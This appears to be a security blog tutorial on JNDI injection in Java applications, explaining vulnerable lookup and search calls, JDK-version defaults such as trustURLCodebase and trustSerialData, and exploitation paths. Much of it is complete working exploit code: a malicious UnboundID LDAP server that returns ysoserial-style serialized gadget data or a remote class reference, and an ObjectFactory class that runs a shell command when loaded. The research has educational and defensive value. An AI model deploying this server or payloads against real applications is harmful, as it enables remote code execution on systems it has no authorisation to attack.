



This is used on Java apps for various purposes which most of time includes to either search for something on ldap or the Corporate Active Directory.
So lets say you have an application where you want the user to be able to login with the corporate AD Creds.
So to achieve this you have to integrate your enterprise JAVA application with your Corporate Active Directory or you can set it up with an LDAP server either used by the same Active direcotory or some other ldap server that you controll which have the
user identity with it.
Now to achieve this you have to use the Java Naming Directory Libraries or the below list of packages
import javax.naming.InitialContext;
import javax.naming.Context;
import javax.naming.NamingEnumeration;
import javax.naming.NamingException;
import javax.naming.directory.*;
Vulnerable Code Signature:
Before looking at the vulnerable code , lets look at how the actual use case code looks like.
Now there 2 things primarily gets done by the JNDI.
Search for the entity
Look Up
So on the first instance where you want to check if the user exist on the Ldap server or not, you will perform a search operation.
Similarly, lets say you have an application which takes and ldap server configuration , there the operation that primarily going to happen is a Ldap Look Up.
But why an application will take ldap server as input?
Well there are many reasons but lets take the below scenario into account .
Lets say you have an application which allows you to use your ldap server for authentication,
Now in order to do that the application first needs to take the ldap servicer configuration and perform a look up and once the lookup is successful then the rest of the process continues.
Below is the sample code for the ldap lookup(or we can say a JNDI lookup)
Now both the above code is vulnerable to JNDI Injection.
Exploitation:
The exploitation for both the sitatuion is same.
For lookup():
if we can control the input for the ctx.lookup() then we can acieve JNDI injection and eventually a Remote Code Execution/
For Search():
For a successful exploitation of the search() we need to have the seach attribute in controll plus setReturningObjectFlag of the searchControl class needs to be true.
if you see the above , you will notice that on the ctx.search() we are sending an object of the searchControll class.
This class has an attribute called setReturningObjectFlag().
The setReturningObjFlag method of the SearchControls class in Java's JNDI API controls whether or not the search results include the objects bound to the names found in the directory. When using the javax.naming.directory package to perform searches in
a directory, you can configure SearchControls to dictate how the search should be conducted. This includes the scope of the search, which attributes to return, and whether the actual objects associated with the directory entries should be returned.
So if this flag's value is set to True and the LDAP server returns a serialized Object then the JNDI api is going to deserialize the object resulting in potential remote code execution
To exploit this vulnerability we have to host a ldap server which can return a malicious Object which upon deserlisation can get us a code exuection.
Now The exploitation differs slightly from JDK version to version:
On JDK <=8u121:
On JDK <=8u121 the we can send serialized data in such a way that the JNDI loads a class from a remote server and execute it.
This happens due to the fact that on JDK code before the specified version at
com/sun/jndi/ldap/VersionHelper.java#55 sets the value of the com.sun.jndi.ldap.object.trustURLCodebase property to True.
In higher version of jdk this property's default value is set to false but if your application explicitly set it to true then on higher vesions of jdk you can load a remote class as well.
Hence on JDK <=8u121 you can directly load a remote class over LDAP or RMI
On JDK >=8u121:
Since on these version the value of the com.sun.jndi.ldap.object.trustURLCodebase property is set to false you can not load a malicious class from a remote server and achieve RCE.
But to test if the vulnerability exist or not you can still get DNS pings backs.
In order to get a Full RCE on these version you have to use the gadgets present on the Class Path.
To Understand it better lets use a vulnerable application, set up our own malicious ldap server and try to exploit the vulnerability.
Now lets answer few of our questions via this code flow.
Why above JDK 8u121 the Remote Class loading is not possible
How does the third party gadget exploits are working and till which versions of JDK and why
So to answer the first question we have to anayluse the first flow.
The code flow changes from the LdapCtx.java as shown Above.
If you check the last sink fucntion you will see there is conditional check if we can TRUST_URL_CODE_BASE

tracing the variable back
As you can see the default value is set to false and if the value is set to false , the condition is failed and we can not trust the Code base and from the loadclass() returns null
Hence we can not exploit this vulnerability on JDK higher than 8u121 as till 8u121 the value of the com.sun.jndi.ldap.object.trustURLCodebase was true by default.
So if the target application is using JDK higher than 8u121 but explicitly setting this property to true then we can still load the remote class and achieve RCE Via this way.
Lets answer the 2nd question now
Now if you analyse the 2nd flow's 2nd last sink function() i.e decodeObject() Obj.java(227), you will see the function is calling deserializeObject() with a classLoader and some attributes.
These attributes are the attribute that we will be sending from our Ldap server and the get() just makes sure that only the value is being passed to the function
Now deserializeObject() eventually passes this byte array to ObjectInputStream or LoaderInputStream(which any way sends it back to ObjectInputStream using inheritance) and calls the readObject() on it.
As you are well aware this is a classic java Deserialisation attack scenario
Hence we are able to send serialised gadget chain of the 3rd party libraries and achieve RCE Via this.
Then why this is not working after JDK 19.
Play close attention to decodeObject() line 236
As you can see it checks if isSerialData is allowed
Examining the function at VersionHelper and backtracking as we did above for the Remote Class loading we see the below

So since the default value of com.sun.jndi.ldap.object.trustSerialData is set to false and based on this Value the check at decodeObject() either moves to deserializeObject() or throws an error, we are not able to exploit this on JDK above 19.
So if the application is explicitly setting this property value to be True then we can again exploit it even on JDK 22 which is the latest JDK Released at the time of writing.
Building your Own Malicious LDAP Server
Note:In real life exploitation you may not find any of the ysoserial gadget working.
At that time you need to have a custom gadget and should be able to integrate that gadget with your own malicous server or existing tools.
So learning how to build your own Malicious server can help you with both the cases.
The Ldap server can be built for 2 purpose
For remote class loading
For sending serialized Data that uses Gadgets present in the class path to Acived RCE
For sending serialized Data that uses Gadgets present in the class path to Acived RCE
So lets breka the malicious ldap server into below steps
public class ldaptest {
//Setting up the configuration for the malicious LDAP Server
InMemoryDirectoryServerConfig serverConfiguration() throws LDAPException
{
InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("random=test");
InMemoryListenerConfig listenerConfig = InMemoryListenerConfig.createLDAPConfig("default", 1389);
config.setListenerConfigs(listenerConfig);
return config;
}
Add entries that returns serialized data for a particular search
//Creating Malicous Entries TO send Serilised Data
InMemoryDirectoryServerConfig malicousServerEntryAndResponse(byte[] decodedBytes) throws LDAPException
{
InMemoryDirectoryServerConfig config=serverConfiguration();
//Itnercepting the Call and sending Malcious Response
config.addInMemoryOperationInterceptor(new InMemoryOperationInterceptor() {
@Override
public void processSearchResult(InMemoryInterceptedSearchResult result) {
ReadOnlySearchRequest request = result.getRequest();
if (request.getBaseDN().toString().equalsIgnoreCase("o=custom")) {
System.out.println("Inside Malicious EntryFucntion() on custome thing");
Entry entry = new Entry("o=custom");
entry.addAttribute("javaClassName", "java.lang.String");
entry.addAttribute("javaSerializedData", decodedBytes);
System.out.println("service Response");
try {
result.sendSearchEntry(entry);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
} catch (LDAPException e) {
e.printStackTrace();
}
} else {
result.setResult(new LDAPResult(0, ResultCode.NO_SUCH_OBJECT));
}
}
});
return config;
}
Start the ldap server
//Main Method
public static void main(String[] args) {
try {
//Ysoserial Payload
String ser_data="base64 encoded Serilised Gadget Data";
byte[] decodedBytes = Base64.getDecoder().decode(ser_data);
ldaptest obj=new ldaptest();
//Starts the LDAP Server
InMemoryDirectoryServer ds = new InMemoryDirectoryServer(obj.malicousServerEntryAndResponse(decodedBytes));
ds.startListening();
System.out.println("LDAP Server started on port 1389");
} catch (Exception e) {
e.printStackTrace();
}
}
Adding all the above, a sample malicious LDAP Server code should look like below
import java.util.Base64;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.*;
public class ldaptest {
//Setting up the configuration for the malicious LDAP Server
InMemoryDirectoryServerConfig serverConfiguration() throws LDAPException
{
InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("random=test");
InMemoryListenerConfig listenerConfig = InMemoryListenerConfig.createLDAPConfig("default", 1389);
config.setListenerConfigs(listenerConfig);
return config;
}
//Creating Malicous Entries TO send Serilised Data
InMemoryDirectoryServerConfig malicousServerEntryAndResponse(byte[] decodedBytes) throws LDAPException
{
InMemoryDirectoryServerConfig config=serverConfiguration();
//Itnercepting the Call and sending Malcious Response
config.addInMemoryOperationInterceptor(new InMemoryOperationInterceptor() {
@Override
public void processSearchResult(InMemoryInterceptedSearchResult result) {
ReadOnlySearchRequest request = result.getRequest();
if (request.getBaseDN().toString().equalsIgnoreCase("o=custom")) {
System.out.println("Inside Malicious EntryFucntion() on custome thing");
Entry entry = new Entry("o=custom");
entry.addAttribute("javaClassName", "java.lang.String");
entry.addAttribute("javaSerializedData", decodedBytes);
System.out.println("service Response");
try {
result.sendSearchEntry(entry);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
} catch (LDAPException e) {
e.printStackTrace();
}
} else {
result.setResult(new LDAPResult(0, ResultCode.NO_SUCH_OBJECT));
}
}
});
return config;
}
//Main Method
public static void main(String[] args) {
try {
//Ysoserial Payload
String ser_data="base64 encoded Serilised Gadget Data";
byte[] decodedBytes = Base64.getDecoder().decode(ser_data);
ldaptest obj=new ldaptest();
//Starts the LDAP Server
InMemoryDirectoryServer ds = new InMemoryDirectoryServer(obj.malicousServerEntryAndResponse(decodedBytes));
ds.startListening();
System.out.println("LDAP Server started on port 1389");
} catch (Exception e) {
e.printStackTrace();
}
}
}
For Remote Class Loading:
For remote class loading we have to change the malicousServerEntryAndResponse() as below.
InMemoryDirectoryServerConfig malicousServerEntryAndResponse(byte[] decodedBytes) throws LDAPException
{
InMemoryDirectoryServerConfig config=serverConfiguration();
//Itnercepting the Call and sending Malcious Response
config.addInMemoryOperationInterceptor(new InMemoryOperationInterceptor() {
@Override
public void processSearchResult(InMemoryInterceptedSearchResult result) {
ReadOnlySearchRequest request = result.getRequest();
if (request.getBaseDN().toString().equalsIgnoreCase("o=custom")) {
System.out.println("Inside Malicious EntryFucntion() on custome thing");
Entry entry = new Entry("o=custom");
entry.addAttribute("objectClass", "javaNamingReference");
entry.addAttribute("javaClassName", "java.lang.String"); //could be any unknown
entry.addAttribute("javaFactory", "testObject"); //could be any unknown
entry.addAttribute("javaCodebase", "http://localhost:9004/");
//entry.addAttribute("javaSerializedData", decodedBytes);
System.out.println("service Response");
try {
result.sendSearchEntry(entry);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
} catch (LDAPException e) {
e.printStackTrace();
}
} else {
result.setResult(new LDAPResult(0, ResultCode.NO_SUCH_OBJECT));
}
}
});
return config;
}
we have added 4 new entires and removed the javaSerializedData attribute.
objectClass="javaNamingReference"
javaClassName="java.lang.String" //could be any unknown
javaFactory="testObject" //could be any unknown
javaCodebase= "http://localhost:9004/"
Now the Vulnerable application is going to fetch the http://localhost:9004/testObject.class
So you need to have testObject.class ready On your server
The testObject class should implement javax.naming.spi.ObjectFactory and should override the getObjectInstance()
The code you want to execute should be inside the default constructor.
In short the testObject.class code should look like below
import java.lang.*;
import javax.naming.Context;
import javax.naming.Name;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
import java.util.Hashtable;
public class testObject implements javax.naming.spi.ObjectFactory
{
public testObject()
{
try{
Runtime.getRuntime().exec("touch /tmp/pwnedViaRemoteReference");
}catch(Exception e)
{
e.printStackTrace();
}
}
@Override
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable environment) {
return null;
}
}
Modifying Existing Tools
Although it is not difficult to build your own malicious server , it is often easier to modify the exsting tools to fullfill your exploitation Requirements.
javaSerializedData is being used to send the serialize ref which === Sending the serialized gadget data.
So assuming we do not have any well known gadget in the class path and we have to custom make our gadget and want to integrate it with the above ldap server , we can follow below steps.
Create a file called custom.java under the controller directory.
The above code will pop a calculator.If you application is in a linux env you have change the binary accordingly.
Restrictions from JDK 20 To 22
on JDK above 19 i.e from JDK version 20 Onwards we can not even use the Thrid Party Gadgets(Such as gadgets available on ysoserial) because the Deserialisation from Java naming apis are blocked by default.
Let's take a look into the below code to understand why
If you try to exploit on JDK above 19 you will see the below stack trace
Lets examine the code from Obj.java
Backtracking the code we see the Code have a if else condition which checks for if serialData is allowed

Lets check the VersionHelper.java
As you can see above, the default value of the trustSerialData is set to false which is responsible for allowing the JDK to deserilize the data
So unless the target application is not explicitly setting the value of this system property to True , the exploitation is not possible.
So if the target app is using JDK version higher than 19, its a good idea to check if this property being explicitly set somewhere
Similary even if the application is using JDK version less than 19 you may not be able to exploit it if the application is explicitly setting this value to false.